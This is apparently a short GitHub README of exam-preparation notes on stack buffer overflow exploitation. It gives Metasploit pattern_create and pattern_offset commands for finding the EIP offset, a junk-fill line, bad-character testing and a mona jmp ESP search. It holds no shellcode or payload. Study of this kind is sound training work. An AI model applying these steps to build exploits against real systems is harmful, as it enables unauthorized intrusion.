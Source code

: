 # OSC_BoF
This Rep describes my steps for BoF. 


1. To find the EIP offset net to create a pattern with msfvenom 

 /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2100 > exploit.txt
 -> check the EIP value: example EIP: 43346943
 then use command to find out the offset: 
 /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q 42367242
 additional step:  /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2100 -q Aa0A (first 4 chars of offset to find how many chars until ESP)
 offset = 1812, -> need to fill until then with 1812 Chars
 1. Step in code: #buf = b"A" * OFFSET #junk get to EIP

2. Find bad Characters, send all chars, in hex to File and filter out bad ones: 
3. find a jmp ESP instruction in code, so that we can put in our shellcode 
4. use mona !mona jmp -r esp -cpb "\x00\x1a" use jump esp instruction. 
